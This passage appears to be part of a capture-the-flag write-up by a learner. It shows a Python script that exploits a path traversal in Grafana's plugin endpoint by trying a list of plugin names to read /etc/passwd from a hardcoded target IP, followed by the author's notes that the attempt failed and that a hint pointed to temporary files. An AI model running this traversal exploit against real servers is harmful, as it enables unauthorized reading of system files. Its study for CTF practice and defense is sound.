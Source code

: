 ### List of plugin paths to try (from known vulnerable paths)
plugin_paths = [
    "alertlist", "annolist", "barchart", "bargauge", "canvas", "dashlist","gauge", "geomap", "gettingstarted", "grafana-azure-monitor-datasource",
    "graph", "heatmap", "histogram", "logs", "loki", "mssql", "mysql","news", "nodeGraph", "opentsdb", "piechart", "pluginlist", "postgres",
    "prometheus", "stackdriver", "stat", "state-timeline", "status-histor","table", "table-old", "tempo", "testdata", "text", "timeseries",  "welcome", "zipkin"
]

### Target file to read
target_file = "../../../../../../../../../../etc/passwd"

### Main exploit function
def exploit(target_url):  
    found = False  
    for plugin in plugin_paths:  
        path = f"{target_url}/public/plugins/{plugin}/{target_file}"  
        print(f"[+] Trying: {path}")  
        try:  
            res = requests.get(path, timeout=5)  
            if res.status_code == 200 and "root:" in res.text:  
                print(f"\n[!!!] Vulnerable via plugin: {plugin}")  
                print("[+] Contents of /etc/passwd:\n")  
                print(res.text)  
                found = True  
                break  
        except requests.RequestException as e:  
            print(f"[-] Error connecting to {path}: {e}")  
    if not found:  
        print("\n[-] Target does not seem vulnerable or plugin paths blocked.")  

### Entry point
if __name__ == "__main__":  
    banner()  
    # Put your target URL here  
    target = "http://13.126.50.182:3000"    
    exploit(target)  

I then understanded the working of such scrits so that i can apply it further although this didn't work but i tried this also.

At last after searching more that what to do if these plugins re not working then i got to know that the etc/passwd that i was writing at the end was creating the problem. The hint slipped from my mind that "*the hacker had placed the flag at a temporary location* and when i realized this then i thought to search in the temp files , i might get something useful in those files.

i tried these commands on the terminal keeping in mind the hint **temporary file**  
